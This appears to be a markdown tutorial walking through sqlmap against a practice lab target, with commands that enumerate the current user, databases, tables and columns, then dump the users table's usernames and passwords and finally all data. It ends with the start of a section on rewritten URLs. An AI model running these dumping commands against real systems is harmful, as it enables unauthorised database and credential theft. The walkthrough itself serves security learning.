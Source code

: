 
# `Dumping the data – in an error-based scenario`

`./sqlmap.py -u [http://192.168.50.2/Less-1/?id=2](http://192.168.50.2/Less-1/?id=2) --current-user`

![image](https://user-images.githubusercontent.com/70459751/186283972-2107b440-2f0a-4a4c-a2b6-445e8686ce59.png)

Now let us print the list of databases present using --dbs switch as follows:
`./sqlmap.py -u [http://192.168.50.2/Less-1/?id=2](http://192.168.50.2/Less-1/?id=2) --dbs`

![image](https://user-images.githubusercontent.com/70459751/186284276-b0c9fc65-2f43-4b07-905e-8af8a59985cc.png)

Can we dump security please!! 

`./sqlmap.py --technique=E -u [http://192.168.50.2/Less-1/?id=2](http://192.168.50.2/Less-1/?id=2) -D security --tables`
![image](https://user-images.githubusercontent.com/70459751/186284261-d49b9b72-96bd-4de5-a0eb-adb30c37a68b.png)

Lets dump the user table!!

`./sqlmap.py -u [http://192.168.50.2/Less-1/?id=2](http://192.168.50.2/Less-1/?id=2) -D security -T users --dump`

![image](https://user-images.githubusercontent.com/70459751/186284251-968d040a-2485-4813-b59f-3315e0607dfc.png)

First let us print the column names only, as follows:

`./sqlmap.py -u [http://192.168.50.2/Less-1/?id=2](http://192.168.50.2/Less-1/?id=2) -D security -T users --columns`

![image](https://user-images.githubusercontent.com/70459751/186284240-b645cbc0-9184-4527-bc74-1019fac642fd.png)

Lets dump the username and password only : 

`./sqlmap.py -u [http://192.168.50.2/Less-1/?id=2](http://192.168.50.2/Less-1/?id=2) -D security -T users -C "username, password" --dump`

![image](https://user-images.githubusercontent.com/70459751/186284225-588ae56c-dfa6-4100-a843-418573e73096.png)
---

# `Dump everything!`

`./sqlmap.py -u [http://192.168.50.2/Less-1/?id=2](http://192.168.50.2/Less-1/?id=2) --dump-all`

# `SQLMap and URL rewriting`

Let's assume the target is using rewritten URLs like the following:

[https://prakharprasad.com/books/1/view](https://prakharprasad.com/books/1/view)
[https://prakharprasad.com/books/2/view](https://prakharprasad.com/books/1/view)
[https://prakharprasad.com/books/3/view](https://prakharprasad.com/books/1/view)
